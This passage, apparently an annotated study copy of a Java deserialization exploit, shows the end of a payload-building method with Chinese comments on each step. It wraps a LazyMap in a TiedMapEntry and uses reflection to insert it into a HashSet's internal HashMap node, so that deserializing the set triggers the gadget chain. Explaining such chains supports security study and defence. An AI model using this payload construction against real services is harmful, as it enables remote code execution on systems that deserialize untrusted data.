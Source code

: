    ```java
           TiedMapEntry entry = new TiedMapEntry(lazyMap, filename);
           // 然而TiedMapEntry本身并没有重写readObject(),因此需要寻找方法触发它的hashCode()
           
           // 创建一个HashSet，因为它重写了readObject()
           // 要触发它读取集合元素之后调用HashMap.put()需要它的size不为0
           // 指定初始化capacity为1，自动调整后capacity为2
           HashSet map = new HashSet(1);
           map.add("foo");
           
           // 获取HashSet底层存储数据的HashMap
           Field f = null;
           try {
               f = HashSet.class.getDeclaredField("map");
           } catch (NoSuchFieldException e) {
               f = HashSet.class.getDeclaredField("backingMap");
           }
           Reflections.setAccessible(f);
           HashMap innimpl = (HashMap) f.get(map);
   
           // 获取HashMap底层存储数据的Node<K, V>[]
           Field f2 = null;
           try {
               f2 = HashMap.class.getDeclaredField("table");
           } catch (NoSuchFieldException e) {
               f2 = HashMap.class.getDeclaredField("elementData");
           }
           Reflections.setAccessible(f2);
           Object[] array = (Object[]) f2.get(innimpl);
   
           // 因为此时HashMap的capacity为2，所以只用访问Node集合的索引为0和1的位置
           Object node = array[0];
           if(node == null){
               node = array[1];
           }
   
           // 获取Node对象的key属性
           Field keyField = null;
           try{
               keyField = node.getClass().getDeclaredField("key");
           }catch(Exception e){
               keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
           }
           Reflections.setAccessible(keyField);
           // 将构造的TiedMapEntry赋值给Hashset->HashMap->Node
           // 使HashMap反序列化时调用TiedMapEntry的hashCode()方法
           keyField.set(node, entry);
   
           // 返回payload
           return map;
       }
   ```
